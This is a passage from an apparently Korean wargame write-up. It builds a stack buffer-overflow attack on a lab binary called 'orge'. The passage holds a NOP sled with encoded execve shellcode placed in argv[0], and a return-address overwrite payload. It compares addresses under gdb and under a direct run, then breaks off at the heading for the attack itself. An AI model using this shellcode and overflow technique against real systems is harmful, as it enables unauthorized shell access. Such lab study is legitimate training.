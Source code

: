 ### 4.1 실제 실행환경 => `0xbffffcfd`

```bash
$ /home/orge/`python -c 'print "\x90"*50 + "\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`           
argv[0] : 0xbffffcfd
argc must be two!  
```

### 4.2 GDB 실행 환경  => `0xbffffd3c`

```bash
$ gdb /home/orge/`python -c 'print "\x90"*50 + "\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`    
GNU gdb 19991004
Copyright 1998 Free Software Foundation, Inc.
GDB is free software, covered by the GNU General Public License, and you are
welcome to change it and/or distribute copies of it under certain conditions.
Type "show copying" to see the conditions.
There is absolutely no warranty for GDB.  Type "show warranty" for details.
This GDB was configured as "i386-redhat-linux"...
(gdb) r `python -c 'print "A"*44 + "\x3b\xfb\xff\xbf"'`
Starting program: /home/orge/ë^1É±2l éuöëèê   2ÁQi00tii0cjoäQTâ±
                                                                Î `python -c 'print "A"*44 + "\x3b\xfb\xff\xbf"'`
argv[0] : 0xbffffd3c
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA;û ¿
...
```

```
0xbffffd36:      ""
0xbffffd37:      "i686"
0xbffffd3c:      "/home/orge/", '\220' <repeats 50 times>, "ë\021^1É±2\200l\016 \001\200é\001uöë\005èê   2ÁQi00tii0cjo\212äQT\212â\232±\fÎ\201"
0xbffffdaa:      'A' <repeats 44 times>, ";û ¿"
---Type <return> to continue, or q <return> to quit---
0xbffffddb:      ""
0xbffffddc:      ""   
```

### 4.2 비교

다시 곰곰히 생각을 해보니깐 gdb 실행시에 실행한 다음의 stack 사용을 동일하겠지만 gdb 실행하기 위한 command line arugment 받는 부분은 환경이 서로 다를 수도 있으니깐 다를 수도 있을 것 같은 생각이 든다. 

좀 이상한 것은 gdb 쓰는 경우가 stack 을 많이 써서 stack pointer 가 더 높게 설정이 되어 있을 것 같은데 실행명령어 경우가 더 높게 잡혀있는 것은 아직은 잘 모르겠다. 

## 5. 공격

